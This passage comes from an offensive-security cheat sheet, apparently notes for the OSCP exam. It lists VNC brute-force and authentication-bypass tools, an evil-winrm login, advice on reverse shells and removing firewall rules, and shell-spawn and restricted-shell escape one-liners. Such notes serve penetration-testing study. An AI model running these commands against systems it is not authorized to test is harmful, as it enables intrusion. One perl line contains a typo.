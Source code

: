 PostgreSQL RCE - UDF and other methods
* https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions


### VNC [5800, 5900 TCP]

Connect to VNC
```
$ vncviewer [target]::[port]
```

VNC login brute-force
```
$ hydra -s 5900 -P /usr/share/wordlists/rockyou.txt [target] vnc
```

VNC authentication bypass:
```
# First, check if VNC service is vulnerable to auth bypass:
https://github.com/curesec/tools/blob/master/vnc/vnc-authentication-bypass.py
# If vulnerable, run manual exploit:
https://github.com/arm13/exploits-1/blob/master/vncpwn.py
# If that doesn't work, try MSF module:
msf> use auxiliary/admin/vnc/realvnc_41_bypass
```

VNC password cracking:
https://www.raymond.cc/blog/crack-or-decrypt-vnc-server-encrypted-password/


### WinRM [5985, 5986 TCP]

WinRM is a Microsoft protocol that allows remote management of Windows machines over HTTP using SOAP.

```
$ ./evil-winrm -i [target] -u [username] -p [password]
```

## Shells

Reverse shell payloads: https://github.com/brianlam38/OSCP-2022/tree/main/Tools

Tricks
* Try to URL encode payload if exploit is not working in webapp.
* Try to remove firewall rules if rshell payloads don't trigger (see below). Confirm code exec by creating `test.txt` file on target if you have a way to identify that the file was created e.g. via. `smb` or `ftp` etc.

Reverse shell local ports
* Try use open ports of the target as the receiving port, as both ingress/egress would typically be open for a service.
* E.g. if 21/FTP is open on the target, try use port 21 as the local port for a reverse shell.

Spawn TTY shell / rbash restricted shell escape
```
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
/bin/bash -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
:!bash                       # within vi
:set shell=/bin/bash:shell   # within vi

$ nmap --interactive         # within nmap
nmap> !sh                          

# REMEMBER TO DO THIS TO FIX YOUR PATHS
```